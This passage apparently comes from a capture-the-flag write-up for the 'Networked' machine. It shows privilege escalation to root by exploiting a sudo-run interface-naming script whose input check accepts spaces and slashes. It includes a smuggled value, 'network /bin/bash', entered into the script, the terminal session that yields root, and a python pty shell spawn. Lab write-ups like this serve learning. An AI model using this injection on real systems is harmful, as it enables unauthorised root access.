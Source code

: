 Looking at it, it seems as though the regex the input is tested against will allow for a blank space and slashes. This means commands can be executed as root.

### 7. Escalate to root
The interface name is provided as "network /bin/bash ", which spawns a shell.
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
network /bin/bash
interface PROXY_METHOD:
dsa
interface BROWSER_ONLY:
asd
interface BOOTPROTO:
asd
whoami
root
python -c "import pty;pty.spawn('/bin/bash')"
[root@networked network-scripts]#
```